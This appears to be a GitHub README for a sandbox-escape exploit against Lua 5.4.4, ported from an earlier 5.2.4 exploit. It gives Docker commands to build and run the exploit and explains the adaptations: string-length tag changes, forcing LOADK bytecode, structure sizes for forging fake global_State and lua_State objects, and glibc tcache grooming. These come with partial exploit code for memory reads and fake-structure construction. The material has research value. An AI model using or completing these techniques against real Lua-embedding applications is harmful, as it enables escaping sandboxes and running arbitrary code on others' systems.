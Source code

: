 # lua-5.4.4-sandbox-escape

### Create docker image

```sh
docker build --tag lua-5.4.4-escape/x64:latest x64
```
### How to run

```sh
docker run -it lua-5.4.4-escape/x64:latest /bin/bash
```

### Exploit

```sh
/LUA/lua/lua /LUA/exploit.lua
```



### What has changed from version 5.2.4 sandbox escaping exploit code?

- TString

`v5.2.4 Lua TString`
```c++
/*
** Header for string value; string bytes follow the end of this structure
*/
typedef union TString {
  L_Umaxalign dummy;  /* ensures maximum alignment for strings */
  struct {
    CommonHeader;
    lu_byte extra;  /* reserved words for short strings; "has hash" for longs */
    unsigned int hash;
    size_t len;  /* number of characters in string */
  } tsv;
} TString;
```


`v5.4.4 Lua TString`
```c++
/*
** Header for a string value.
*/
typedef struct TString {
  CommonHeader;
  lu_byte extra;  /* reserved words for short strings; "has hash" for longs */
  lu_byte shrlen;  /* length for short strings */
  unsigned int hash;
  union {
    size_t lnglen;  /* length for long strings */
    struct TString *hnext;  /* linked list for hash table */
  } u;
  char contents[1];
} TString;
```

Moving from 5.2.4 to 5.4.4, you can see that the variable handling the length of TString is managed by dividing it into shrlen and lnglen.

- OP_LEN code

`v5.2.4 Lua OP_LEN code`
```c++

void luaV_execute (lua_State *L) {
/*skipped*/
vmcase(OP_LEN,
        Protect(luaV_objlen(L, ra, RB(i)));
      )
/*skipped*/
}


void luaV_objlen (lua_State *L, StkId ra, const TValue *rb) {
  const TValue *tm;
  switch (ttypenv(rb)) {
/*skipped*/
    case LUA_TSTRING: {
      setnvalue(ra, cast_num(tsvalue(rb)->len));
      return;
    }
/*skipped*/

  }
  callTM(L, tm, rb, rb, ra, 1);
}

#define LUA_TSTRING     4


```


`v5.4.4 Lua OP_LEN code`
```c++
void luaV_execute (lua_State *L, CallInfo *ci) {
/*skipped*/
    vmcase(OP_LEN) {
            Protect(luaV_objlen(L, ra, vRB(i)));
            vmbreak;
          }
/*skipped*/
}

/*
** Main operation 'ra = #rb'.
*/
void luaV_objlen (lua_State *L, StkId ra, const TValue *rb) {
  const TValue *tm;
  switch (ttypetag(rb)) {
/*skipped*/
    case LUA_VSHRSTR: {
      setivalue(s2v(ra), tsvalue(rb)->shrlen);
      return;
    }
    case LUA_VLNGSTR: {
      setivalue(s2v(ra), tsvalue(rb)->u.lnglen);
      return;
    }
/*skipped*/

  }
  luaT_callTMres(L, tm, rb, rb, ra);
}

/* Variant tags for strings */
#define LUA_TSTRING     4
#define LUA_VSHRSTR makevariant(LUA_TSTRING, 0)  /* short strings */
#define LUA_VLNGSTR makevariant(LUA_TSTRING, 1)  /* long strings */
```

As the length of TString is treated as shrlen and lnglen, the behavior of OP_LEN for strings has also changed, so tag must be set to LUA_VLNGSTR.


```lua
local function readAddr(addr)
    collectgarbage()
-- skipped
    local _addr = numTo64L(addr - 16)
    local padding_a = string.rep('\65', 8) -- 0x41 padding
    local padding_b = string.rep('\20', 15) -- LUA_VLNGSTR tag padding
-- skipped

```



- OP_LOADI code

Looking at the foo function that exists in the existing code, an integer value is put into the a variable. In version 5.2.4, the LOADK command is used to do this. However, since version 5.4.4 uses the LOADI command to handle integer assignment, it was possible to induce the use of the LOADK command by changing the integer assignment to a string assignment.

`v5.2.4 Sandbox Escaping exploit code`

```lua
local function foo()
    local a=1 a=2 a=3
    return (#a)
end
```


`v5.4.4 Sandbox Escaping exploit code`

```lua
local function foo()
    local a="a" a="b" a="c" 
    return (#a)
end
```

- global_State, lua_State structure size change

When running the existing exploit, to create fake global_State and fake lua_State, a string is created as much as the size of the structure. At this time, the size of the structure changes and this is reflected.

```lua
    local l_G_addr = readAddr(readAddr(t_addr) + 0x18)

    l_G = memcpy(l_G_addr, 1416) -- sizeof(global_State)=1416
    l_G = numTo64L(addr) .. numTo64L(arg) .. l_G:sub(17)
    l_G_addr = bufferAddress(l_G)


    local t_buffer = memcpy(t_addr, 200) -- sizeof(lua_State)=200
```


- tcache bins clean (Ubuntu glibc ptmalloc)

In the luaM_newvectorchekced function, the malloc function is called and the chunk of variable k is allocated. At this time, if the tcache bin is full, the desired chunk is not allocated and the exploit fails. Because of this, we allocate a variable and empty the chunk that exists in the tcache bin.

```lua
    -- clean tcache bins

    local t1 = {}
    local t2 = {}
    local t3 = {}
    local t4 = {}
    local t5 = {}
    local t6 = {}
    local t7 = {}


    local intermid = {}

    collectgarbage()
    intermid = nil
    k=nil
    collectgarbage()

    g, err = load(g)
    g() 
```





### Reference

[https://github.com/erezto/lua-sandbox-escape](https://github.com/erezto/lua-sandbox-escape)